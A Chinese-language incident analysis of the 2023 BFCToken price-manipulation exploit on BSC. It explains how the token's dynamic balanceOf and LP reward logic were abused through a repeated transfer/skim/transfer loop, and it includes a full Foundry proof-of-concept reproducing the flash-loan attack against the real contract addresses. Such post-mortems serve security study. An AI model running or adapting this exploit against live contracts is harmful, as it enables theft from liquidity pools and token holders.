








# BFCToken@rewardLogic

- 时间：2023-09-09 19:16:35 (UTC)
- 损失金额：~$38K
- twitter
  - twitter1：https://twitter.com/CertiKAlert/status/1700621314246017133
  - twitter2：https://twitter.com/MetaTrustAlert/status/1719187202415235536

## 交易 

- 被攻击的合约：[0x595eac4a0ce9b7175a99094680fbe55a774b5464](https://bscscan.com/address/0x595eac4a0ce9b7175a99094680fbe55a774b5464)
- 攻击事件hash：[0x8ee76291c1b46d267431d2a528fa7f3ea7035629500bba4f87a69b88fcaf6e23](https://bscscan.com/tx/0x8ee76291c1b46d267431d2a528fa7f3ea7035629500bba4f87a69b88fcaf6e23)
- 黑客EOA地址：[0x7cb74265e3e2d2b707122bf45aea66137c6c8891](https://bscscan.com/address/0x7cb74265e3e2d2b707122bf45aea66137c6c8891)
- 黑客用来攻击的合约：[0x9180981034364f683ea25bcce0cff5e03a595bef](https://bscscan.com/address/0x9180981034364f683ea25bcce0cff5e03a595bef)

## 资金流向



## 攻击过程

整体的攻击过程



实际的攻击逻辑







## 攻击详细分析

整体的逻辑是闪电贷获取资金，然后swap换币，核心是`BFC.transfer()`、`BUSDT_BFC.skim()`、`BFC.transfer()`这个循环，循环了若干次，然后导致池子中的BFC金额变小



也造成了BFC的`_reserve`变小，所以推断出BFC的`balanceOf()`是魔改的，价值会根据市场而变动。这个变动意味着价格操纵，从攻击上看，是使得BFC的价格升高，然后用手头上的BFC换取池子中的USD。



让我们来看看他是如何做到价格操纵的。其实他也就调用了`_transfer()`，那么来看一下这个方法：这会进入到reward的计算

```solidity
    function _transfer(...) internal override {
        ....
        if (ammPairs[from]) {
            _distributeRewards(to);
        } else if (ammPairs[to]) {
            _distributeRewards(from);
        } else {
            _distributeRewards(from);
            _distributeRewards(to);
        }
        ...
```

我们可以发现，他的计算有关于LP

```solidity
function _distributeRewards(address addr) internal {
    .....
    uint256 tokenAmountLastFather = getTokenAmountByLp(
            lpAmountLastFather
    );
    uint256 tokenAmountFather = getTokenAmountByLp(lpAmountFather);
    if (lastFatherAmount == 0) return;
    .....
```

看LP的具体计算，我们发现，LP的价值会受到BFC在池子中的价值影响，而BFC的价值`balanceOf()`是动态的，随市场变动。

```solidity
    function getTokenAmountByLp(uint256 lpAmount) {
        uint256 balance1 = IERC20(address(this)).balanceOf(
            address(uniswapV2PairUSDT)
        );
        if (balance1 == 0 || lpAmount == 0) return 0;
        return lpAmount.mul(balance1).div(uniswapV2PairUSDT.totalSupply());
    }
    
    function balanceOf(address account) public view override returns (uint256) {
        uint256 amount = super.balanceOf(account);
        if (cannotBurn[account]) return amount;
        uint256 spendTime = block.timestamp.sub(userTimeOfBurn[account]);
        if (spendTime == 0) return amount;
        uint256 mintAmount = getUserMintAmount(account);
        uint256 burnAmount = getUserBurnAmount(account);
        uint256 balance = amount.sub(burnAmount).add(mintAmount);
        return balance;
    }
```

`balanceOf()`会根据`getUserMintAmount()`变动，`getUserMintAmount()`又根据`getTokenAmountByLp()`变动。

```solidity
    function getUserMintAmount(address user) public view returns (uint256) {
        if (!lpPush[user] || totalMint >= MAX_MINT) return 0;
        uint256 userTime = userTimeOfMint[user];
        uint256 endTime = block.timestamp;
        if (userTime > 0 && userTime < endTime) {
            uint256 mintSecond = endTime.sub(userTime);
            uint256 mintCount = mintSecond.div(3);
            uint256 lpAmount = uniswapV2PairUSDT.balanceOf(user);
            if(lpAmount == 0){
                return 0;
            }
            uint256 tokenAmount = getTokenAmountByLp(lpAmount).sub(
                sonToFather[user]
            );
           
            uint256 mintAmount = tokenAmount
                .mul(MINT_RATIO)
                .div(BLOCK_AMOUNT_OF_DAY)
                .div(1000);
            return mintAmount.mul(mintCount);
        }
        return 0;
    }
```

所以我们总结一下调用和状态变动逻辑

```
transfer => _distributeRewards => getTokenAmountByLp => balanceOf => getUserMintAmount => getTokenAmountByLp

transfer会影响调用者的LP。
-在攻击中，发送token给池子：BFC.transfer()
-使得getTokenAmountByLp计算结果变小，LP变少，balanceOf进而变小
-池子的_reserve变小，为了维持K值不变，攻击者通过skim取走多余的钱：BUSDT_BFC.skim()
-价格操纵之后，sync池子，使得价格操纵完成：BFC.transfer(,0)

重复此操作，使得池子的BFC价格下降，自己拥有的BFC也减少。
虽然都减少，但是拥有的BFC可以在池子中兑换更多的USD（相比操纵之前）
```

看起来，这个攻击有这样的特点：

- 发送代币到池子，BFC价值变化，`skim()`取走，再次重复，使得BFC价值不断下降
- BFC价值下降，黑客拥有的代币价值、池子的BFC价值都下降。虽然都下降，但是相比价格操纵之前，黑客下降之后的代币价值可以在池子中swap到更多的USD。也就是说，价值同时下降，但是池子下降的比黑客下降的更剧烈，使得黑客通过价差有利可图。

> 不断的重复`BFC.transfer()`、`BUSDT_BFC.skim()`、`BFC.transfer()`到达了一定的程度，黑客才获利，前几次循环造成的价差，黑客没有获利反而受损，但是随着不断的重复此操作，黑客的价差变正，从而有利可图

最终操纵的价格：池子的BFC价值变为1：



核心是：transfer影响LP。通过`skim()`可以不断重复transfer。重复操作到一定程度，价差从负变正，有利可图

## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract BFCTest is Test {
    IUni_Pair_V2 BUSDT_WBNB =
        IUni_Pair_V2(0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE);
    IUni_Pair_V2 BUSDT_BFC =
        IUni_Pair_V2(0x71e1949A1180C0F945fe47C96f88b1a898760c05);
    IUni_Router_V2 Router =
        IUni_Router_V2(0x10ED43C718714eb63d5aA57B78B54704E256024E);
    IERC20 BFC = IERC20(0x595eac4A0CE9b7175a99094680fbe55A774B5464);
    IERC20 BUSDT = IERC20(0x55d398326f99059fF775485246999027B3197955);
    IERC20 WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);

    function setUp() public {
        vm.createSelectFork("bsc", 31599443);
        vm.label(address(BUSDT_WBNB), "BUSDT_WBNB");
        vm.label(address(BUSDT_BFC), "BUSDT_BFC");
        vm.label(address(Router), "Router");
        vm.label(address(BFC), "BFC");
        vm.label(address(BUSDT), "BUSDT");
        vm.label(address(WBNB), "WBNB");
    }

    function testExploit() public {
        deal(address(BUSDT), address(this), 0);
        deal(address(this), 0);
        bytes memory swapData = abi.encode(
            address(BFC),
            address(BUSDT_BFC),
            400_000 * 1e18
        );
        BUSDT_WBNB.swap(400_000 * 1e18, 0, address(this), swapData);
        swapBUSDTToBNB();

        emit log_named_decimal_uint(
            "Attacker BNB balance after attack",
            address(this).balance,
            18
        );
    }

    function pancakeCall(
        address _sender,
        uint256 _amount0,
        uint256 _amount1,
        bytes calldata _data
    ) external {
        BFC.approve(address(Router), type(uint256).max);
        BUSDT.approve(address(Router), type(uint256).max);

        swapBUSDTToBFC(BUSDT.balanceOf(address(BUSDT_BFC)));
        BFC.transfer(address(BFC), BFC.balanceOf(address(this)));
        swapBUSDTToBFC(BUSDT.balanceOf(address(this)));
        // Start exploit
        uint256 counter;
        while (counter < 100) {
            uint256 balanceBFC = BFC.balanceOf(address(this));
            uint256 pairBalanceBFC = BFC.balanceOf(address(BUSDT_BFC));

            if (balanceBFC >= (50 * pairBalanceBFC)) {
                balanceBFC = (pairBalanceBFC - 1) * 50;
            }

            BFC.transfer(address(BUSDT_BFC), balanceBFC);
            BUSDT_BFC.skim(address(this));
            BFC.transfer(address(BUSDT_BFC), 0);

            if (balanceBFC < (pairBalanceBFC * 50)) {
                ++counter;
            } else {
                break;
            }
        }
        // End exploit
        swapBFCToBUSDT();
        uint256 returnFlashAmount = (_amount0 * 1000) / 997 + 1;
        BUSDT.transfer(address(BUSDT_WBNB), returnFlashAmount);
    }

    receive() external payable {}

    function swapBUSDTToBFC(uint256 amountIn) internal {
        address[] memory path = new address[](2);
        path[0] = address(BUSDT);
        path[1] = address(BFC);

        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            amountIn,
            0,
            path,
            address(this),
            block.timestamp + 1000
        );
    }

    function swapBFCToBUSDT() internal {
        address[] memory path = new address[](2);
        path[0] = address(BFC);
        path[1] = address(BUSDT);

        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            BFC.balanceOf(address(this)),
            0,
            path,
            address(this),
            block.timestamp + 1000
        );
    }

    function swapBUSDTToBNB() internal {
        address[] memory path = new address[](2);
        path[0] = address(BUSDT);
        path[1] = address(WBNB);

        Router.swapExactTokensForETH(
            BUSDT.balanceOf(address(this)),
            0,
            path,
            address(this),
            block.timestamp + 1000
        );
    }
}
```

## 建议

- 魔改的`balanceOf()`，主要注意价值的逻辑
- 警惕`skim()`可以重复调用的可能性，是否多次调用之后有利可图


